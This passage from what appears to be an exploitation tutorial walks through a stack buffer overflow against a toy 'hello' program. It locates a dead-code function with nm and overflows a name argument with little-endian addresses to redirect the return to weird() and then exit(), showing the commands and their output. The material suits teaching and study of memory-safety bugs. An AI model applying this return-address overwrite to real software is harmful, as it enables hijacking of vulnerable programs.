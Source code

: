 ```
  LOAD           0x000000 0x08048000 0x08048000 0x001e8 0x001e8 R   0x1000
  LOAD           0x001000 0x08049000 0x08049000 0x642bc 0x642bc R E 0x1000
  LOAD           0x066000 0x080ae000 0x080ae000 0x2a56d 0x2a56d R   0x1000
  LOAD           0x0906a0 0x080d96a0 0x080d96a0 0x02c78 0x03990 RW  0x1000
  NOTE           0x000134 0x08048134 0x08048134 0x00044 0x00044 R   0x4
  TLS            0x0906a0 0x080d96a0 0x080d96a0 0x00010 0x00030 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x0906a0 0x080d96a0 0x080d96a0 0x01960 0x01960 R   0x1
```

You'll have noticed, in our [example](#code_example), that there is no obvious
way of reaching the function named **weird()**. For all intents and purposes, 
it looks like dead code. But (since we disabled compiler optimizations) it's
still there, and has an address:

```
$ nm hello | grep weird
08049b05 T weird
```

(Here, we dumped the hello binary's namespace with 
[nm](https://linux.die.net/man/1/nm) and searched for the name
"weird" with [grep](https://linux.die.net/man/1/grep).)

With a bit of trial and error (or patience and calculation), we can determine
the exact offset at which to place this address (in raw, little-endian format,
which in the bash shell can be achieved by putting **$'\x05\x9b\x04\x08'**)
so that when the CPU goes to fetch the return address of the call to hello()
from the stack, it finds 0x0849b05 instead, and continues on its way, never
the wiser.

```
$ ./hello 1234567890123456789012$'\x05\x9b\x04\x08'
This program is going to greet you.
Hello, 1234567890123456789012!
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
Segmentation fault (core dumped)
```

The "Segmentation fault" at the end, here, only comes about because, when
the CPU goes to fetch the return address from the stack upon reaching the
end of weird(), it finds nothing that points to executable code. We can
remedy this by putting _another_ address at the end of our "name". For now,
let's just put the address of **weird()** again, followed by the address of
**exit()**, which nm shows to lie at 0x0804fda0, so that we can terminate the
process without incurring a segfault.

```
$ ./hello 1234567890123456789012$'\x05\x9b\x04\x08'$'\x05\x9b\x04\x08'\
$'\xa0\xfd\x04\x08'
This program is going to greet you.
Hello, 1234567890123456789012!
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
ph'nglui mglw'nafh Cthulhu R'lyeh wgah'nagl fhtagn
```
